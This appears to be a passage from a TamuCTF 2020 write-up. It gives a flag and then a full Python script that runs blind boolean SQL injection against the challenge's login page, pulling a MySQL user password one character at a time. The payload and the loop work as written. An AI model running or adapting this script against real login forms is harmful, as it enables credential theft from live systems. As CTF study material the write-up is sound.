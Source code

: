 🏁 __gigem{1_4m_g0od_47_m4tH3m4aatics_n07_s3cUr1ty_h3h3h3he}__{:.spoiler}

## passwordextraction

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?

This challenge welcomes us with a classic login page. Naively trying to login using an SQL injection we succeed!
![passexlogin](/assets/img/TamuCTF_2020/passextraction_1.png)
Or did we ?
![passexfail](/assets/img/TamuCTF_2020/passextraction_2.png)
It seems like we need something more creative in order to extract our password.
A simple SQLi script written in python will be good enough

```python
#!/bin/python
import requests
import string

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Origin': 'http://passwordextraction.tamuctf.com',
    'Upgrade-Insecure-Requests': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://passwordextraction.tamuctf.com/',
    'Accept-Language': 'it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7,fr;q=0.6',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.punctuation + string.digits
diclen = len(dic)

found = False
result = ""

for i in range(1, 100):
    found = False
    for char in dic:
        print("[*] Trying {}{}".format(str(result), char))
        data = {
          'username': "admin",
          'password': "' or (SELECT MID(password,{},1) FROM mysql.user LIMIT 3,1)='{}' # ".format(i, char)
        }
        response = requests.post('http://passwordextraction.tamuctf.com/login.php', headers=headers, data=data, verify=False)
        resp = str(response.content)
        if "Invalid login info" not in resp:
            result = result + char
            print("[*] Found char {}".format(char))
            print("[*] Current: {}".format(result))
            found = True
            break

    if not found:
        print("[X] Couldn't find char at position {}".format(i))
        print("[*] Current: {}".format(result))
        exit(1)
```